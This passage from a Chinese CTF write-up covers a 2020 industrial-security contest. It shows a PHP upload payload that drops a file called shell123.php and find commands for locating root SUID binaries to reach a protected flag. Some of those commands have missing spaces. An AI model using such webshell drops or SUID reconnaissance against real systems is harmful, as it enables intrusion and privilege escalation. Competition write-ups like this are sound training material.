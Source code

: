 上传生成马：
```php
<?php file_put_contents("shell123.php","test888888<?php phpinfo();?>");?>
```

这题给了flag位置，在/root/flag，直接读是没有权限的，需要执行/etc/下的test才能读取flag，类似于大型竞赛的readflag程序，为了防止破坏flag。

这类readflag程序一般是通过SUID实现的，以下命令将尝试查找具有root权限的SUID的文件，不同系统适用于不同的命令，一个一个试
```
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000-print2>/dev/null
find / -user root -perm -4000-exec ls -ldb {} \;
```

---

# 下午

## Misc

### 签到

flag 就在图片里面

![](../../../../assets/img/Security/CTF/writeup/2020-10-全国工业互联网安全技术技能大赛江苏省选拔赛/4.jpg)

---